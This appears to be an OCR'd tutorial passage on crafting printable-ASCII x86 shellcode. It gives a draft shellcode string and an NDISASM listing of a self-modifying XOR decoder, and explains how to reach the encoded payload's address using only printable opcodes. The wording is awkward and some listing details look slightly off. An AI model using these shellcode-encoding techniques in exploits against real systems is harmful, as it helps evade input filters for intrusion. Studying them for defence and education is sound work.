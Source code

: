 

Ascii: 0x) 0x 0 x-0x/0x0fhPPfZ0p10p30x> 0x? 0p? 0x @ 0pA0xB0pC0xD0xE0pE0xG0xH0pI0xJ0xK0pK

Our ascii shellcode looks for the moment

```
LLLLZhAGIXX5AGIXHTYRQRPTUVWa
0x)0x0x-0x/0x0fhPPfZ0p10p30x>0x?0p?0x@ 0pA0xB0pC0xD0xE0pE0xG0xH0pI0xJ0xK0pK
1?161-MYjZhthanhjonavNLQOT2$1/$1OQ2/
```



Now we need [eax + 40] gives the address of the first byte of the sentence to be decoded!
To do this we will have to add a number to eax before starting to decode. But opcodes "add" instruction can not be printed, so we use the sub it is. Indeed, subtract enough we can fall back on a larger number.

It usually takes three sub that we must rely to determine the address of our sentence. We go through how to find NDISASM add.

```asm
00000000       4C             dec esp
00000001       4C             dec esp
00000002       4C             dec esp
00000003       4C             dec esp
00000004       5A             pop edx
00000005       6841474958     push dword 0x58494741
0000000A       58             pop eax
0000000B       3541474958     xor eax, 0x58494741
00000010 	   48             dec eax
00000011       54             push esp
00000012       59             pop ecx
00000013       52             push edx
00000014       51             push ecx
00000015       52             push edx
00000016       50             push eax
00000017       54             push esp
00000018       55             push ebp
00000019       56             push esi
0000001A       57             push edi
0000001B       61             popa
0000001C       2D41414141     sub eax, 0x41414141
00000021       2D42424242     sub eax, 0x42424242
00000026       2D43434343     sub eax, 0x43434343
0000002B       307829         xor [eax+0x29], bh
0000002E       30782B         xor [eax+0x2b], bh
00000031       30782D         xor [eax+0x2D], bh
00000034       30782F         xor [eax+0x2f], bh
00000037       307830         xor [eax+0x30], bh
0000003A       66685050       push word 0x5050
0000003E       665A           pop dx
00000040       307031         xor [eax+0x31], dh
00000043       307033         xor [eax+0x33], dh
00000046       30783E         xor [eax+0x3e], bh
00000049       30783F         xor [eax+0x3f], bh
0000004C       30703F         xor [eax+0x3f], dh
0000004F       307840         xor [eax+0x40], bh
00000052       307041         xor [eax+0x41], dh
00000055       307842         xor [eax+0x42], bh
00000058       307043         xor [eax+0x43], dh
0000005B       307844         xor [eax+0x44], bh
0000005E       307845         xor [eax+0x45], bh
00000061       307045         xor [eax+0x45], dh
00000064       307847         xor [eax+0x47], bh
00000067       307848         xor [eax+0x48], bh
0000006A       307049         xor [eax+0X49], dh
```